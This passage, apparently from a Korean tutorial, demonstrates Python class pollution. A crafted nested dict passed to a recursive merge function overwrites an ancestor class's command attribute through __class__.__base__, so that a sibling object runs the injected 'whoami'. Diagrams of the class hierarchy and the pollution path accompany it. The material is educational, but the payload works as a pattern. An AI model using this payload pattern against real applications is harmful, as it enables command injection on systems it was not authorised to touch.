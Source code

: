 ```python
        else:
            setattr(dst, k, v)

# 오염용 payload
USER_INPUT = {
    "__class__": {
        "__base__": {
            "__base__": {
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
# [!] Executing: "echo Hello there", output: "Hello there"

# 병합을 통해 조상 클래스 오염 시도
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
# [!] Executing: "whoami", output: "abdulrah33m"
```

### 클래스 구조

```mermaid
classDiagram
    class Employee
    class HR
    class Recruiter
    class SystemAdmin

    HR --|> Employee
    Recruiter --|> HR
    SystemAdmin --|> Employee

```

### 오염 경로

```mermaid
flowchart TD
    A["recruiter_emp (Recruiter)"] --> B["__class__ (Recruiter)"]
    B --> C["__base__ (HR)"]
    C --> D["__base__ (Employee)"]
    D --> E["custom_command=whoami"]
```
